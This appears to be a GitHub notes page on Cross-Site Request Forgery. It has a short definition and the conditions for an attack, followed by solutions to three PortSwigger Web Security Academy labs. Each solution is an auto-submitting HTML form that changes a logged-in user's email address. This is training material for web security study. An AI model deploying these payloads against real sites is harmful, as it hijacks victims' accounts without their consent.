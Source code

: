 # Cross Site Request Fogery (CSRF)

CSRF allows an attacker to partly circumvent the <b><i>same origin policy</i></b>, which is designed to prevent different websites from interfering with each other. <br>

Conditions to execute an successful CSRF attack
1. A Action
2. Cookie based session handling
3. Predictable request parameter (Header parameters)

solutions for portswigger lab exercise 

lab1:
<form method="POST" action="https://acfe1fd91fd1c3bbc0ab31e600dd00d6.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="csrf-success@test.com"></form>
<script>
document.forms[0].submit();
</script>

lab2:
<form method="GET" action="https://0a90009e047a2bce86637c47002800bd.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="hahlol@test.com"></form>
<script>
document.forms[0].submit();
</script>

lab3:
<form method="POST" action="https://acfe1fd91fd1c3bbc0ab31e600dd00d6.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="csrf-success@test.com"></form>
<script>
document.forms[0].submit();
</script>